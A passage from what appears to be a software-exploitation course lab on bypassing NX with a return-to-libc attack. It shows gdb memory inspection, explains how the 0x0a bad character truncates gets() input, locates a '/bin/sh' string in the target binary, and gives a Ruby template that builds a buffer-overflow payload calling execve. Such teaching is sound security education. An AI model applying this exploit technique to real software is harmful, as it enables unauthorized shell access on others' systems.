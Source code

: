 ```bash
(gdb) x/20wx $esp
```

**![][image-14]**

Strange… the memory address was not loaded correctly. And all of our C’s are gone.

The 2nd value on the stack after our exploit contains the value 0x000000aa, where we wanted it to contain 0xf7f50aaa.

It looks like the last byte is correct, but the rest has not loaded. As we are packing our memory addresses in little endian, the bytes are read in from right to left. First 0xaa, then 0x0a, etc.

The 0x0a byte is a good example of a **bad character** contained within a memory address that we want to use. It represents the newline character in C strings, and will cause the gets() function to terminate, leaving the rest of our exploit string unreachable.

As the memory address of the instance of `"/bin/sh"` in libc is unusable, we will need a different approach. Next week we will investigate more sophisticated ways of getting around this, including chaining small segments of code together to manipulate memory to our advantage.

For now, let’s search the binary itself for the string `"/bin/sh"` that was printed out by the program as a hint. We could use the find function 

==action: Disassemble main and look for the parameter pushed to the stack before the printf statement:==

```bash
(gdb) disassemble main
```

```bash
(gdb) x/s 0x645750a4
```

![][image-15]

We can offset the memory address to find the memory location of the first “/” character. Calculate the number of characters in the string preceding `"/bin/sh"`:

**![][image-16]**

A great feature in gdb is the ability to do arithmetic different base number systems, so we can add our decimal number directly to a hex memory address without having to manually convert it first.

==action: Add decimal 11 to the hex value in gdb==. 

```bash
(gdb) x/s 0x645750a4 + 11
```

Great. Note down the address of this string as ==edit:New-BinSh-Address==. 

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Update your script with the ==edit:New-BinSh-Address== :==

```ruby
  offset = "==edit:Offset-Value=="
  # eip = "BBBB"
  execve = ["==edit:Execve-Address=="].pack('V')   # mem addr of execve()
  eip = execve
  ret_exit = ["==edit:Exit-Address=="].pack('V')   # return address i.e. mem addr of exit() function
  bin_sh = ["==edit:New-BinSh-Address=="].pack('V')   # mem addr of "/bin/sh" string
  # zero = [0x00000000].pack('V')     # mem addr that contains 0x00000000 
  function
  
  bad = "A" * offset + eip + ret_exit + bin_sh + "C" * 30 #+ zero + zero
```


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-14.png
[image-15]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-15.png
[image-16]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-16.png
[image-17]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-17.png
[image-18]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-18.png